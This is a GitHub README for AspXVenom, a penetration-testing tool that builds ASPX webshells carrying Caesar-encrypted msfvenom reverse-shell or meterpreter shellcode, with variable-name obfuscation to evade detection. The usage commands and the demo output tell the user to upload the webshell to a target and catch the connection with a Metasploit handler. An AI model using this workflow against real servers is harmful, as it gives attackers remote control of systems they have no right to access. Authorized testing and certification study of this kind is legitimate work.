

# AspXVenom

<p align="center">
  
  
  
  
</p>


<p align="center">
  <b>AspXVenom</b> is an advanced ASPX shellcode generator with encryption and obfuscation capabilities for penetration testing.
</p>

<p align="center">
  <a href="https://xbz0n.sh"></a>
</p>

---

## Overview

AspXVenom automates the process of generating encoded shellcode and embedding it into ASPX webshells, providing a smooth workflow for penetration testers during security assessments. The tool is specifically designed for testing ASPX-enabled web servers and .NET environments.

<p align="center">
  
</p>

## New in Version 2.0

AspXVenom v2.0 is a complete rewrite with significant improvements:

- **Self-contained** - All templates embedded directly in a single script
- **Enhanced obfuscation** - Variable name randomization to evade detection
- **Improved encryption** - Customizable Caesar cipher keys
- **Better management** - Temporary file cleanup and improved error handling
- **More robust** - Comprehensive validation and exception handling
- **User-friendly** - Detailed logs and summary output

## Features Comparison

| Feature | v1.0 (Legacy) | v2.0 |
|---------|---------------|------|
| Required files | Multiple files (templates) | Single file |
| Encryption | Fixed key (5) | Customizable, random by default |
| Variable obfuscation | ❌ | ✅ |
| Error handling | Basic | Comprehensive |
| Temporary files | Persistent | Auto-cleanup |
| Logging | Limited | Detailed with verbosity control |
| Parameter validation | ❌ | ✅ |
| Randomization | ❌ | ✅ |

## Requirements

- Python 3.6+
- Metasploit Framework
- Mono (for executing .NET applications)
- mcs (Mono C# compiler)

## Installation

```bash
# Clone the repository
git clone https://github.com/xbz0n/AspXVenom.git
cd AspXVenom

# Ensure the script is executable
chmod +x aspxvenom.py
```

## Usage

### Version 2.0 (Recommended)

```bash
# Basic usage
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444

# With variable obfuscation
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --obfuscate

# With custom encryption key and verbose output
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --key 42 --verbose

# Custom payload and output directory
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/x64/shell_reverse_tcp --output-dir custom_output
```

### Legacy Version (1.0)

```bash
# Navigate to legacy directory
cd legacy

# Basic usage 
python3 aspx_shellcode_generator.py --LHOST 192.168.1.100 --LPORT 4444
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/x64/meterpreter/reverse_https |
| `--output-dir` | Directory to save generated files | output |
| `--key` | Custom encryption key (1-255) | Random |
| `--verbose`, `-v` | Enable verbose output | False |
| `--obfuscate`, `-o` | Obfuscate variable names | False |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It embeds the shellcode into a C# program that encrypts it using a Caesar cipher
3. The encrypted shellcode is embedded into an ASPX web shell template
4. The tool creates a Metasploit resource file for handling the connection

## Demo

After successful execution, you'll see a summary like this:

```
============================================================
 AspXVenom - Shellcode Generator Summary 
============================================================
LHOST: 192.168.1.100
LPORT: 4444
Payload: windows/x64/meterpreter/reverse_https
Encryption Key: 42
Variable Obfuscation: Enabled

Generated Files:
- Webshell: /path/to/output/WebShellFinal.aspx
- Metasploit RC: /path/to/output/met64.rc

Usage:
1. Upload WebShellFinal.aspx to the target server
2. Start Metasploit handler: msfconsole -r met64.rc
============================================================
```

## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The payloads generated are detected by most antivirus products
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **Ivan Spiridonov (xbz0n)** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges 
